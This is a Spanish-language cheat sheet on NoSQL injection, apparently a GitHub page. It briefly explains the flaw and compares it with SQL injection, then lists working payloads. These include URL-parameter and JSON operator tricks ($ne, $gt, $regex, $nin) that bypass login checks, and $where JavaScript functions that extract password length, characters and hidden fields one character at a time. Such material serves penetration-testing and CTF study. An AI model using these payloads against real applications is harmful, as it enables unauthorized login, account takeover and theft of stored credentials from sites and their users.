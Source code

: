 ```yaml
---

### 💥 **NoSQL Injection Cheat Sheet** 💥

---
```

---
#### **¿Qué es una inyección NoSQL?**  

Las **inyecciones NoSQL** son vulnerabilidades de seguridad que afectan aplicaciones web que utilizan bases de datos NoSQL, como **MongoDB**, **Cassandra** y **CouchDB**.  
El atacante envía **datos maliciosos a través de una consulta** que se ejecuta sin validación o sanitización adecuada, logrando:  

- **Acceso no autorizado a información confidencial.**  
- **Modificación de datos** en la base de datos.  
- **Ejecución de acciones no deseadas** en el sistema.  

---

## **Diferencia entre SQLi y NoSQLi**  
| Aspecto               | SQL Injection                           | NoSQL Injection                        |
|-----------------------|-----------------------------------------|-----------------------------------------|
| Tipo de Base de Datos | Relacional (SQL)                         | No Relacional (NoSQL)                    |
| Lenguaje de Consulta  | SQL (Structured Query Language)          | MongoDB Query, JSON, u otros específicos |
| Vectores de Ataque    | Inyección en sentencias SQL              | Inyección en consultas basadas en objetos |
| Validación            | Explotación de sintaxis SQL              | Falta de validación en objetos JSON       |

---

### **Payloads para inyección NoSQL**

#### **Payloads en Parámetros (Data)**
```bash
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
```

#### **Payloads de Prueba (Testing)**
```bash
'
' + '
'%2b'
' && '1' == '2  # URL encoded
' && '1' == '1  # URL encoded
administrator' && this.password.length > 7 || 'a'=='b  # URL encoded
administrator' && this.password[0] == 'k' || 'a'=='b   # URL encoded
```

---

### **Payloads en JSON**

#### **Evasión de Restricciones**
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

#### **Consultas Avanzadas**
##### **Comprobar longitud de la contraseña:**
```json
{
    "username": "admin",
    "password": {
        "$regex": ".{29}"  # Longitud de 29 caracteres
    }
}
```

##### **Verificar el primer carácter:**
```json
{
    "username": "admin",
    "password": {
        "$regex": "^a"  # Empieza con "a"
    }
}
```

##### **Identificar el campo `_id`:**
```json
{
    "username": "carlos",
    "password": {"$ne": ""},
    "$where": "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0; }"
}
```

##### **Longitud de un campo oculto:**
```json
{
    "username": "carlos",
    "password": {"$ne": ""},
    "$where": "function(){ if(this.changePwd.length == 1) return 1; else 0; }"
}
```

##### **Comprobar el carácter inicial del campo oculto:**
```json
{
    "username": "carlos",
    "password": {"$ne": ""},
    "$where": "function(){ if(this.changePwd.match(/^a/)) return 1; else 0; }"
}
```

---
### 🔗 **Recursos adicionales:**
- Repositorio de Payloads:  
  [PayloadsAllTheThings - NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
  [NoSQLMap](https://github.com/codingo/NoSQLMap)
---
